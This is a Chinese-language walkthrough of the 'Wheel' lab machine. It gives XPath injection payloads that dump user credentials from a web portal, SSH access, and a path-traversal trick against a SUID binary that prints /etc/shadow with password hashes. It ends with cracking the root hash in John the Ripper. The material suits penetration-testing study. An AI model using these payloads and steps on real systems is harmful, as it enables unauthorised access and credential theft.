

# Wheel

因為 Nmap 掃超級慢，所以先關閉嘗試其他路線，直接用瀏覽器連線目標可以發現 port 80 有網站服務


上方的功能列有 "Home", "REGISTER", "LOGIN", "EMPLOYEE PORTAL"，需要一組內部帳密才可以看 EMPLOYEE PROTAL。  
在網站的最下方可以看到聯絡信箱： info@wheels.service，試著用這個 domain 申請會員，再登入後成功看到 EMPLOYEE PROTAL 的畫面


EMPLOYEE PROTAL 有一個查詢功能，會以特定條件（by services）撈資料並顯示畫面上，透過 Burp 攔截請求看看他是怎麼傳送參數的


透過 Burp 可以看到參數經由 work 這個參數傳送，現在我們嘗試隨意輸入看能不能製造出 error (通常錯誤訊息會有更多線索確認使用的套件或是框架)


可以發現他是用 XML 的方式去傳遞資料，接下來就去尋找相關的注入指令。

```
')] | //*[contains(*,'
```
這個參數可以查看所有使用者名稱

```
')]+|+//password%00
```
這個可以查看所有使用者的密碼，接著我們就可以嘗試用 `ssh` 連上主機

```
┌──(kali㉿kali)-[~]
└─$ ssh bob@192.168.167.202

bob@192.168.167.202's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 18 Dec 2024 08:18:46 AM UTC

  System load:  0.05              Processes:               246
  Usage of /:   60.0% of 9.78GB   Users logged in:         0
  Memory usage: 33%               IPv4 address for ens160: 192.168.167.202
  Swap usage:   0%

Last login: Tue May 17 19:22:53 2022 from 192.168.118.14

$ cat *.txt
```

成功取得 local.txt

接下來要嘗試提權，執行 `find / -perm -u=s 2>/dev/null` 可以取得有 SUID 權限的程序

```
$ find / -perm -u=s 2>/dev/null
/opt/get-list
/snap/snapd/15904/usr/lib/snapd/snap-confine
/snap/snapd/15534/usr/lib/snapd/snap-confine
/snap/core18/2409/bin/mount
/snap/core18/2409/bin/ping
/snap/core18/2409/bin/su
/snap/core18/2409/bin/umount
/snap/core18/2409/usr/bin/chfn
/snap/core18/2409/usr/bin/chsh
/snap/core18/2409/usr/bin/gpasswd
/snap/core18/2409/usr/bin/newgrp
/snap/core18/2409/usr/bin/passwd
/snap/core18/2409/usr/bin/sudo
/snap/core18/2409/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2409/usr/lib/openssh/ssh-keysign
/snap/core18/2128/bin/mount
/snap/core18/2128/bin/ping
/snap/core18/2128/bin/su
/snap/core18/2128/bin/umount
/snap/core18/2128/usr/bin/chfn
/snap/core18/2128/usr/bin/chsh
/snap/core18/2128/usr/bin/gpasswd
/snap/core18/2128/usr/bin/newgrp
/snap/core18/2128/usr/bin/passwd
/snap/core18/2128/usr/bin/sudo
/snap/core18/2128/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2128/usr/lib/openssh/ssh-keysign
/snap/core20/1434/usr/bin/chfn
/snap/core20/1434/usr/bin/chsh
/snap/core20/1434/usr/bin/gpasswd
/snap/core20/1434/usr/bin/mount
/snap/core20/1434/usr/bin/newgrp
/snap/core20/1434/usr/bin/passwd
/snap/core20/1434/usr/bin/su
/snap/core20/1434/usr/bin/sudo
/snap/core20/1434/usr/bin/umount
/snap/core20/1434/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1434/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chfn
/usr/bin/umount
/usr/bin/mount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/chsh
$ cd /opt/
$ ls
get-list
$ ./get-list


Which List do you want to open? [customers/employees]: employees
Opening File....

bob
alice
john
dan
alex
selene

$ ./get-list


Which List do you want to open? [customers/employees]: ../../../../etc/shadow
Oops something went wrong!!$ ./get-lsit
-sh: 9: ./get-lsit: not found
$ ./get-list         

Which List do you want to open? [customers/employees]: ../../../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::
mysql:!:19123:0:99999:7:::
```

取得 `shadow` 後，嘗試破密

```
┌──(kali㉿kali)-[~]
└─$ echo '$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0' > root_hash
                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (?)     
1g 0:00:00:01 DONE (2024-12-18 16:29) 0.9009g/s 6227p/s 6227c/s 6227C/s horoscope..better
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

成功得到 root 的密碼，拿到 proof.txt